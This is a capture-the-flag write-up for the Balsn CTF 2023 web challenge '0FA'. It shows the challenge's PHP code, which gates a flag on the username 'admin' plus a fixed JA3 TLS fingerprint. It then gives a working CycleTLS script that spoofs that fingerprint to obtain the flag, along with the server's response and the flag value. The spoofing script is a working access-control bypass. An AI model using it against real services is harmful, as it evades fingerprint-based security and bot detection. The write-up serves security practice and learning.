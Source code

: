 ```yaml
---
title: 0FA
date: 2023-10-09
tags:
  - web
author: cartouche70
---
```


# 0FA

Description: I really don't like 2FA, so I created a 0FA login system!

Challenge Author: kaibro

- we have a php application
- we can see that in index.php it s just a submit query input that can be vulnerable

```html
<form method="post" action="flag.php">
            <div class="field">
                <input type="text" class="input" name="username" placeholder="Username...">
            </div>
            <input type="submit" class="button is-primary"><br>
        </form>
```

it goes to the flag.php

```php
<?php
include_once("config.php");
fingerprint_check();
if(!isset($_POST['username']) || $_POST['username'] !== "admin")
    die("Login failed!");
?>
```

so, if the username is not admin, then login fails, but he also makes some fingerprint checks(). Maybe it’s exploitable, but let s try to put admin there first and see the request

we sent a request to the server and we can see that we still have an error, but the username is indeed admin, we can look somewhere else. 

in the config.php, there is a defined JA3 fingerprint and it checks if that fingerprint is the same as the one received by the server.

```php
<?php
define("FINGERPRINT", "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0");
$flag = 'BALSN{fake_flag}';

function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

After some research, we can see that the ja3 fingerprint can be impersonated.

For that, I used CycleTLS, an npm module good for ja3 impersonation.

```tsx
const qs = require('qs');

const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
  // Initiate CycleTLS
  const cycleTLS = await initCycleTLS();
  const bodyDict = {username:"admin"};
  // Send request
  const response = await cycleTLS('https://0fa.balsnctf.com:8787/flag.php', {
    body: qs.stringify(bodyDict),
    headers: {"Content-Type": "application/x-www-form-urlencoded"},
    method: "POST",
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    userAgent: 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0'
  }, 'post');

  console.log(response);

  // Cleanly exit CycleTLS
  cycleTLS.exit();

})();
```

after running this script, we have this output in console:

```tsx
{
  status: 200,
  body: '<html>\n' +
    '<head>\n' +
    '    <title>Balsn CTF 2023 - 0FA</title>\n' +
    '    <meta charset="UTF-8">\n' +
    '    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.4/css/bulma.min.css">\n' +
    '</head>\n' +
    '<body>\n' +
    '  Here is your flag: BALSN{Ez3z_Ja3__W4rmUp}</body>\n' +
    '</html>',
  headers: {
    Connection: 'keep-alive',
    'Content-Type': 'text/html; charset=UTF-8',
    Date: 'Mon, 09 Oct 2023 07:54:15 GMT',
    Server: 'nginx/1.23.1'
  }
}
```
